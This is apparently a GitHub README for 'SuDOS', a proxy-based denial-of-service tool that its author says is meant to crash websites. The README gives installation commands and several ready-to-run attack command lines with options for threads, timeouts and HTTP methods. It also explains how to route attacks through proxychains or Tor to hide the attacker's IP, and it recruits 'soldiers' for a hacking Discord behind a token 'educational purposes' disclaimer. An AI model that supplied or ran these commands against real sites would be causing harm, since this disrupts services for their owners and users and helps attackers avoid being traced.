 # sudos

**SuDOS** or Super Denial of Service is a proxy-based DoS tool used to crash unprotected websites from this kind of attack. It is highly recommended to use proxychains or VPN while using this tool to hide your own IP address from proxy servers or even from your target.

**We** are in need of soldiers. Join **[CSEC](https://discord.com/invite/dZSDbjJPHx)** for more free powerful tools. We also teach **anonimity**, **hacking** and **programming** for free!

Also, thanks to https://openproxy.space/list for providing these proxy lists for free!

# Disclaimer
- This tool is for educational purposes only.
- I will not be responsible for any damage this tool cause. Use it at your own risk!
- This tool is in early version. Many bugs may occur!

# Installation
Please copy and paste the step-by-step commands below to successfully install **SuDOS** in your computer. I will not be providing how to install [Python](https://python.org/) in your computer. Do some research!
```
git clone https://github.com/lilmond/sudos.git
pip install -r requirements.txt
```
You can put `sudos.py` to `/usr/local/bin/` with root and just remove the file extension to run the script globally. And don't forget to give it access using `chmod`.

# Usage examples
## Basic commands
Sets socket connection timeout to 5
```
python sudos.py "https://example.com/path/page.php?parameter=parameter_value" ./proxies/http/1.txt http --timeout 5
```

Sets max threads to 100
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks5/2.txt socks5 -t 100
```

Sets HTTP method to POST
```
python sudos.py "https://example.com/path/page.php" ./proxies/socks4/1.txt socks4 -m POST
```
## Increase anonymity commands
Basic usage of **proxychains**
```
proxychains4 -q python sudos.py "http://example.com/" ./proxies/socks4/1.txt socks4
```
**SuDOS** with **Torify**
```
torify -q python sudos.py "http://example.com/" ./proxies/http/1.txt http
```

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_4.png" width=300/>
